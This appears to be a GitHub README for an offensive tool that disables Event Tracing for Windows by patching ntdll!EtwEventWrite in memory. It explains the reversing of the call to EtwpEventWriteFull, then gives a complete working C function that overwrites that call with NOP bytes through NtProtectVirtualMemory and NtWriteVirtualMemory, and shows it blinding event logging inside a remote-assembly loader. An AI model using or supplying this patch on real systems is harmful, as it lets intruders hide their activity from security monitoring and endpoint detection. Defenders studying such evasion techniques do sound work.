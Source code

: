 # Patching ETW 

### Event Tracing for Windows (ETW) provides a mechanism to trace and log events that are raised by user-mode applications and kernel-mode drivers.  
### **ntdll!EtwEventWrite** is responsible for writing an event , it's not actually the function that do the Event Writing job, by reversing it, we can see that it calls **ntdll!EtwpEventWriteFull** that do the actual Event Writing :  
  
![IDAetw](https://user-images.githubusercontent.com/110354855/198856050-d5a3d460-0ad7-494b-abb8-018333d2f497.png)  
   
### this call is done at offset (0x214 -  0x1f0 = 0x24) and it takes 5 bytes, the idea here is to write a program that identify 0xe8 the opcode of the call instruction and overwrite this call memory with 5 bytes , so that the call will never done  
  

![TheCall](https://user-images.githubusercontent.com/110354855/198856198-a66c74e6-5833-47d4-a82c-1646206bf61b.png)

  
![EtwPatch](https://user-images.githubusercontent.com/110354855/198856224-12901961-150b-4116-946f-ad149705dc96.png)

### Here is the full Patch function :  
```c
void patchEtwpEventWriteFull(OUT HANDLE& hProc) {

    void* etwAddr = GetProcAddress(GetModuleHandle(L"ntdll.dll"), "EtwEventWrite");

    for (BYTE offset = 0; offset <= 100; offset++) {
        if (*((PBYTE)etwAddr + offset) == 0xe8 && *((PBYTE)etwAddr + offset + 9) == 0xc3) {
            char etwPatch[] = { 0x90, 0x90, 0x90, 0x90, 0x90 };

            DWORD lpflOldProtect = 0;
            unsigned __int64 memPage = 0x1000;
            void* etwAddr_bk = (void*)(((INT_PTR)etwAddr + offset));;

            NTSTATUS NtProtectStatus1 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, 0x04, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus1)) {
                printf("[!] Failed in NtProtectVirtualMemory1 (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtWriteStatus = NtWriteVirtualMemory(hProc, (LPVOID)((INT_PTR)etwAddr + offset), (PVOID)etwPatch, sizeof(etwPatch), (SIZE_T*)nullptr);
            if (!NT_SUCCESS(NtWriteStatus)) {
                printf("[!] Failed in NtWriteVirtualMemory (%u)\n", GetLastError());
                return;
            }

            NTSTATUS NtProtectStatus2 = NtProtectVirtualMemory(hProc, (PVOID*)&etwAddr_bk, (PSIZE_T)&memPage, lpflOldProtect, &lpflOldProtect);
            if (!NT_SUCCESS(NtProtectStatus2)) {
                printf("[!] Failed in NtProtectVirtualMemory2 (%u)\n", GetLastError());
                return;
            }
        }
        if (*((PBYTE)etwAddr + offset) == 0xc3) {
            break;
        }
    }
    

    std::cout << "[+] Patched etw!\n";

}
```
### Let's test it inside [ExecRemoteAssembly](https://github.com/D1rkMtr/ExecRemoteAssembly)  
  
  
https://user-images.githubusercontent.com/110354855/198856339-644c09c0-7299-4533-9175-716d639fb216.mp4  
  
### As you can see the **ntdll!EtwEventWrite** failed to write Event for the current process after patching it  




